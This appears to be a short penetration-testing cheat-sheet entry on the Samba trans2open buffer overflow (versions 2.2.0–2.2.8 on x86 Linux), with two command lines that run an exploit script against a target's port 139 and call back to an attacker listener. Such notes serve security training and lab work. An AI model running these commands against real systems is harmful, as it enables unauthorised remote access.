 # Samba trans2open Overflow (Linux x86)

This exploits the buffer overflow found in Samba versions 2.2.0 to 2.2.8. This particular module is capable of exploiting the flaw on x86 Linux systems that do not have the noexec stack option set. NOTE: Some older versions of RedHat do not seem to be vulnerable since they apparently do not allow anonymous access to IPC.

```sh
./samba_2_2_x.pl -M B -t linx86 -H <LHOST> -h <RHOST> -p 139
./samba_2_2_x.pl -M B -t linx86 -H 10.11.0.xxx -h 10.11.1.xxx -p 139 -P 4444
```
